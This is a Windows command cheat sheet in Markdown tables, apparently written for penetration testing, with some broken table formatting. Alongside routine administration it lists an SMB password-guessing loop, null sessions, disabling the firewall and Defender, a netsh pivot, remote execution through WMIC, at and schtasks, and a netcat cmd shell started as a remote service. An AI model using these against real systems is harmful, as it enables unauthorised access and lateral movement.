 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Accounts and Privileges**

Topic | Command
------------- | -------------
Lauch with Admin Privs | ctrl+shift+enter 
SID | S-[revision level]-[authority level]-[domain/computer]-RID
Admin RID | 500
Guest RID | 501 
Users RID | 1001 and up
Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
List Local Users | net user
List Groups | net localgroup
List Administrators | net localgroup administrators 
List Account Policy | net accounts or net accounts /domain
Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"

>**Antivirus**

Topic | Command
------------- | -------------
Turn off Windows Defender | control /name Microsoft.WindowsDefender
Turn off Smart Screen | control /name Microsoft.ActionCenter

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Count Lines | <code> type "file" | find /c /v "" </code>
Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Display File Contents | type [file], type *.[ext], type [file1] [file2]
Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
See Environment Variables | set, set [variable_name] <br> Example: username, path
Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Read Registry Key | reg query [keyName] 
Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Export Registry Keys | reg export [keyName] [filename.reg] 
Import Registry Keys | reg import [filename.reg]
Find a String  | find "[string]", findstr [regex]

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Network Activity | <code> netstat -na | find ":[port]"</code> 
DNS cahce | ipconfig /displaydns
Turn firewall off | netsh advfirewall set allprofiles state off
Firewall Rule | netsh advfirewall firewall add rule name="[name]" <br> dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=[port number] <br> Example: 3389, 23
Delete Firewall Rule | netsh advfirewall firewall del rule name="[name]" 
Disable Firewall | netsh advfirewall set allprofiles state off 

Firewall Rule Registry | reg add HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
View Firewall Configuration | netsh advfirewall show allprofiles 

Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name"
 Netsh pivot | netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=[RPORT] connectaddress=[RHOST] 

>**Process and Services**

Topic | Command
------------- | -------------
Install a service | "pkgmgr /iu:""[servicename]"" <br> dism /online /Enable-Features /FeatureName:TelnetServer"
List Running Services | sc query 
List All Services | sc query state= all
List Remote Services  | sc \\[targetIP] query
Check status of service | sc query [service name]
Start/Stop a service | sc start/stop [service name]
Change Startup type of service | sc config [servicename] start= demand (termservice, telnet)
Delete Service | sc delete [service name]
List Processes | tasklist
Kill a Process | taskkill /PID [process_ID] 

>**Remote Access, SMB, and WMIC**

See Current Privileges | whoami 
Windows null session | net use \\targetip "" /u:"" 
Establish an SMB session | net use \\[targetIP] [password] /u:[user]
Mount a Share on Target | net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user] 
Dropping SMB Session | "net use \\[targetIP] /del <br> net use * /del"
Remote Access, SMB, and WMIC | Run a Remote Command | sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe | 
Remote Access, SMB, and WMIC | Turn on Remote Desktop / terminal services | reg add "hklm\system\currentcontrolset\control\terminal server" /v fdenysconnetions /t reg_dword /d 0 | 
Remote Access, SMB, and WMIC | Remote Registry  | Put \\[MachineName] before [KeyName] | 
Remote Access, SMB, and WMIC | WMIC Invoke Porgram | wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] | 
Remote Access, SMB, and WMIC | WMIC on Multiple Machines | /node:@[filename] - run a command on multiple machines listed in a file | 
Remote Access, SMB, and WMIC | WMIC Service Query | wmic services where (displayname like "%[whatever]%") get name | 
Remote Access, SMB, and WMIC | WMIC List Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief | 
Remote Access, SMB, and WMIC | WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete | 
Remote Access, SMB, and WMIC | WMIC Monitor Process | wmic process where name="[name]" list brief /every:1 | "nc.exe"
Remote Access, SMB, and WMIC | at (windows 7 and lower)(all commands at SYSTEM) | "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" | 
Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 

Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 

